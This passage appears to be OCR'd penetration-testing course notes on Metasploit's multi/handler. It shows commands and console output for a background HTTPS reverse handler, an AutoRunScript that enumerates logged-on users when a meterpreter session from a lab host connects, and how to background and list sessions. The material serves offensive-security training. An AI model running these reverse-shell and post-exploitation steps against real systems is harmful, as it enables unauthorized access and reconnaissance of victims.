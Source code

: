 msf5 exploit(multi/handler) > 
  
• The AutoRunScript option is also quite helpful as it will automatically run a script when a meterpreter connection is established.
  
• This is very useful during a client-side attack since we maynot be available when a user executes our payload, meaning the session could sit idle or be lost.
  
• For example, we can configure the gather/enum_logged_on_users module to automatically enumerate logged-in users when meterpreter connects:
  
  msf5 exploit(multi/handler) > set AutoRunScript windows/gather/enum_logged_on_users
AutoRunScript => windows/gather/enum_logged_on_users


msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Started HTTPS reverse handler on https://10.11.0.4:443


msf5 exploit(multi/handler) >
[*] https://10.11.0.4:443 handling request from 10.11.0.22; Staging x86 payload (18082
[*] Meterpreter session 5 opened (10.11.0.4:443 -> 10.11.0.22:51275)
[*] Session ID 5 (10.11.0.4:443 -> 10.11.0.22:51275) processing AutoRunScript 'windows
/gather/enum_logged_on_users'
[*] Running against session 5
Current Logged Users
====================
SID User
--- ----
S-1-5-21-3048852426-3234707088-723452474-1103 corp\offsec
S-1-5-21-3426091779-1881636637-1944612440-1001 CLIENT251\admin
..............
  
 we have navigated within a meterpreter session using various built-in commands.
 
 we can also temporarily exit the meterpreter shell to perform other actions inside the Metasploit Framework, without closing down the connection. 
  
  
 We can use background to return to the msfconsole prompt, where we can perform other actions within the framework. 
 
 When we are ready to return to our meterpreter session, we can list all available sessions with sessions -l and jumpback into our session with sessions -i (interact) followed by the respective Id as shown in Listing 
  
  meterpreter > background
[*] Backgrounding session 5...

msf5 exploit(multi/handler) > sessions -l
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
5 meterpreter x86/windows NT AUTHORITY\SYSTEM @ WIN10-X86 10.11.0.4:4444 ->
10.11.0.22:50344 (10.11.0.22)
